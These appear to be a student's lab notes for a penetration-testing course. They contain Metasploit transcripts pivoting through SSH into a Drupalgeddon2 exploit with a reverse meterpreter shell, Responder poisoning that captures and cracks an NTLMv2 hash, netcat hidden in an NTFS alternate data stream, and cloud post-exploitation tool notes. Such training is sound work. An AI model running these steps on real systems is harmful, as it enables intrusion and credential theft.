


# Lab 5 Evasive and Post-Exploitation Attacks

## 5.1 Pivot Exploitation

```bash
msf6 exploit(multi/ssh/sshexec) > show options

Module options (exploit/multi/ssh/sshexec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       The password to authenticate with.
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     22               yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  root             yes       The user to authenticate as.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/ssh/sshexec) > set RHOSTS 172.30.0.21
RHOSTS => 172.30.0.21
msf6 exploit(multi/ssh/sshexec) > set USERNAME mpoor
USERNAME => mpoor
msf6 exploit(multi/ssh/sshexec) > set PASSWORD forgecaptain
PASSWORD => forgecaptain
msf6 exploit(multi/ssh/sshexec) > set LHOST eth0

# set new route inet addr:172.40.0.2  Mask:255.255.255.0
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > route add 172.40.0.0 255.255.255.0 1
[*] Route added
msf6 exploit(multi/ssh/sshexec) > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.40.0.3-20
RHOSTS => 172.40.0.3-20
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80, 443, 8000, 8080
PORTS => 80, 443, 8000, 8080
msf6 auxiliary(scanner/portscan/tcp) > run

[*] 172.40.0.3-20:        - Scanned  2 of 18 hosts (11% complete)
[*] 172.40.0.3-20:        - Scanned  4 of 18 hosts (22% complete)
[*] 172.40.0.3-20:        - Scanned  6 of 18 hosts (33% complete)
[+] 172.40.0.10:          - 172.40.0.10:80 - TCP OPEN
[*] 172.40.0.3-20:        - Scanned  8 of 18 hosts (44% complete)
[*] 172.40.0.3-20:        - Scanned  9 of 18 hosts (50% complete)
[*] 172.40.0.3-20:        - Scanned 11 of 18 hosts (61% complete)
[*] 172.40.0.3-20:        - Scanned 13 of 18 hosts (72% complete)
[*] 172.40.0.3-20:        - Scanned 15 of 18 hosts (83% complete)
[*] 172.40.0.3-20:        - Scanned 17 of 18 hosts (94% complete)
[*] 172.40.0.3-20:        - Scanned 18 of 18 hosts (100% complete)

msf6 auxiliary(scanner/http/http_header) > run

[+] 172.40.0.10:80       : CACHE-CONTROL: must-revalidate, no-cache, private
[+] 172.40.0.10:80       : CONTENT-TYPE: text/html; charset=UTF-8
[+] 172.40.0.10:80       : CONTENT-LANGUAGE: en
[+] 172.40.0.10:80       : SERVER: Apache/2.4.25 (Debian)
[+] 172.40.0.10:80       : X-CONTENT-TYPE-OPTIONS: nosniff, nosniff
[+] 172.40.0.10:80       : X-DRUPAL-CACHE: MISS
[+] 172.40.0.10:80       : X-DRUPAL-DYNAMIC-CACHE: MISS
[+] 172.40.0.10:80       : X-FRAME-OPTIONS: SAMEORIGIN
[+] 172.40.0.10:80       : X-GENERATOR: Drupal 8 (https://www.drupal.org)
[+] 172.40.0.10:80       : X-POWERED-BY: PHP/7.2.3
[+] 172.40.0.10:80       : X-UA-COMPATIBLE: IE=edge
[+] 172.40.0.10:80       : detected 11 headers
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/http_header) > search type:exploit rank:excellent drupal

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/multi/http/drupal_drupageddon     2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   1  exploit/unix/webapp/drupal_coder_exec     2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   2  exploit/unix/webapp/drupal_drupalgeddon2  2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   3  exploit/unix/webapp/drupal_restws_exec    2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   4  exploit/unix/webapp/php_xmlrpc_eval       2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/php_xmlrpc_eval

msf6 auxiliary(scanner/http/http_header) > use 2

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.40.0.10      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

meterpreter > download /var/www/html/sites/default/files/.ht.sqlite
```

## 5.2 Responder Attack

```bash
sec504@slingshot:/opt/responder$ sudo responder -I eth0 -i 10.10.75.1
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CRTL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.75.1]
    Challenge set              [1122334455667788]


[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.10.0.1 for name SEC504 (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.0.1 for name SEC504 (service: Browser Election)
[*] [LLMNR]  Poisoned answer sent to 10.10.0.1 for name hellooooooooo
[*] [NBT-NS] Poisoned answer sent to 10.10.0.1 for name HELLOOOOOOOOO (service: File Server)
[SMB] NTLMv2-SSP Client   : 10.10.0.1
[SMB] NTLMv2-SSP Username : SEC504STUDENT\Sec504
[SMB] NTLMv2-SSP Hash     : Sec504::SEC504STUDENT:1122334455667788:F3EEADB56BA448A2C8FC0713C8FDE3F8:01010000000000009BFC80A86099D8015606CBF8273120990000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000010000000020000071B7C50B775518F81711AFF5B53B0D4E38BA01EEBC9B5624E88619E109A9CF1E0A001000000000000000000000000000000000000900240063006900660073002F00680065006C006C006F006F006F006F006F006F006F006F006F000000000000000000
[SMB] Requested Share     : \\HELLOOOOOOOOO\IPC$
[*] [LLMNR]  Poisoned answer sent to 10.10.0.1 for name hellooooooooo
[*] Skipping previously captured hash for SEC504STUDENT\Sec504
[SMB] Requested Share     : \\HELLOOOOOOOOO\IPC$
[*] [LLMNR]  Poisoned answer sent to 10.10.0.1 for name hellooooooooo
[*] Skipping previously captured hash for SEC504STUDENT\Sec504
[SMB] Requested Share     : \\HELLOOOOOOOOO\IPC$
[*] [LLMNR]  Poisoned answer sent to 10.10.0.1 for name hellooooooooo
[*] Skipping previously captured hash for SEC504STUDENT\Sec504
[SMB] Requested Share     : \\HELLOOOOOOOOO\IPC$

# Using John to crack NTLM hash
sec504@slingshot:/opt/responder/logs$ john SMB-NTLMv2-SSP-10.10.0.1.txt 
Created directory: /home/sec504/.john
Created directory: /home/sec504/.john/opencl
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
sec504           (Sec504)     
```

## 5.3 Alternate Data Streams

Alternate data streams are part of the NTFS spec and have interesting bits of data attached to carrier files.

```powershell
C:\>notepad C:\tmp\test.txt

C:\>notepad C:\tmp\test.txt:hideme.txt

C:\>dir c:\tmp
 Volume in drive C has no label.
 Volume Serial Number is FA12-EC34

 Directory of c:\tmp

07/16/2022  10:18 PM    <DIR>          .
07/16/2022  10:18 PM    <DIR>          ..
07/16/2022  10:19 PM                 4 test.txt
               1 File(s)              4 bytes
               2 Dir(s)   4,226,203,648 bytes free
```

You can also add executables to alternate data streams.

Ex:

```powershell
C:\> type C:\Tools\nc.exe > C:\tmp\test.txt:nc.exe

# You can't run a ADS file from the start command, so use wmic instead
wmic process call create C:\tmp\test.txt:nc.exe
```

Run a NC command and validate with `taskmgr`

Use LADS to detect ADS's

## 5.4 Establishing Persistence with Metasploit

## 5.5 Cloud Post-Exploitation

==__pgs: 88-101__==

- __WeirdAAL:__ enumerates AWS access with creds in .env file.
  - can target all or specific cloud functions.
  - can brute-force privilege and access enumeration; noisy
- __iwr:__ AzureStealth tool for detecting shadow admin accounts (account has admin privileges without being an 'official' admin account)
  - __NOT__ designed as an attack tool.
  - shadow admin account can be used to create a backdoor.
- __gcloud:__ used to authenticate with GCP and provide similar API access as AWS CLI.
  - Attackers can download database backups made to intermediate buckets with `gsutil`
- __CloudMapper:__ free tool for visualizing + auditing AWS cloud deployments.
  - Requires user creds with `Security Audit` role and `ViewOnlyAccess` privilege.
  - Helps ID priv esc vulns, publicly accessible assets, and unused resources.
- __ScoutSuite:__ multi-cloud vulnerability assessment tool that requires privileged access to provide comprehensive reports.



